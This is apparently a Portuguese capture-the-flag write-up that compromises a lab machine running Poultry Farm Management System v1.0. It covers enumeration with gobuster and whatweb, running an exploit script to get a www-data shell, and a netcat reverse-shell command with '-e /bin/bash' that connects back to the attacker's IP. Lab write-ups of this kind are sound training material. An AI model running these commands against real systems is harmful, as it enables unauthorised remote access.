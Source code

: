 ````bash
gobuster dir -eu http://10.10.20.73 -w /usr/share/wordlists/dirb/common.txt -e --no-error -t 100
````
<p align="center"> <img width="1500px" height="517" alt="image" src="https://github.com/user-attachments/assets/2eade400-a3c0-4cb9-af94-09e53ccfd136" /></p>

Como nada muito útil apareceu, resolvi apelar pra big.txt, que costuma achar mais coisa:

````bash
gobuster dir -eu http://10.10.20.73 -w /usr/share/wordlists/dirb/big.txt -e --no-error -t 100
````
<p align="center"> <img width="1500px" height="499" alt="image" src="https://github.com/user-attachments/assets/3b9e5d1d-701a-4058-b12b-8974d393ee44" /> </p>

Nas dicas da máquina, foi citado que está rodando um `Poultry Farm Management System v1.0`. Com essa informação em mente, o diretório `/ranch` me chamou atenção:

<p align="center"> <img width="1500px" height="669" alt="image" src="https://github.com/user-attachments/assets/ccf671ba-1da3-4a1e-96c0-d1c6eabdc92a" /> </p>

Pra entender melhor o que estava por trás desse diretório, rodei o whatweb, que é uma ferramenta ótima pra identificar tecnologias web usadas no servidor:

````bash
whatweb http://10.10.20.73/ranch/
````

<p align="center"> <img width="1500px" height="105" alt="image" src="https://github.com/user-attachments/assets/43dff6a6-bc75-42f4-939c-11609e7d4ce9" /> </p>

## 🔍 Exploração

Como a própria room já entrega qual script devemos usar pra explorar a falha, só precisamos fazer uns ajustes rápidos pra que ele funcione corretamente.
Teremos que alterar três linhas:

<p align="center"> <img width="1500px" height="910" alt="image" src="https://github.com/user-attachments/assets/38497ec3-56a6-4701-84e3-dedc1eeb9eeb" /></p>

Com tudo ajustado, é só rodar:

````bash
python3 red.py
````
<p align="center"> <img width="1500px" height="247" alt="image" src="https://github.com/user-attachments/assets/311f64df-e849-4803-a391-eb758f886bc1" /></p>
Pronto! Já garantimos uma shell como www-data.

Agora, bora pegar uma shell reversa mais confortável.
Primeiro, iniciamos o listener no Kali:

````bash
nc -nlvp 445
````
<p align="center"> <img width="1500px" height="84" alt="image" src="https://github.com/user-attachments/assets/86c9b2b3-a377-436d-89a0-21860097f787" /></p>

Depois, do lado da vítima:

````bash
nc 10.21.173.102 445 -e /bin/bash
````
Conexão recebida com sucesso:
<p align="center"> <img width="1500px" height="135" alt="image" src="https://github.com/user-attachments/assets/4edbc4e9-34f3-4eb2-a9f6-d57f6a73f892" /></p>
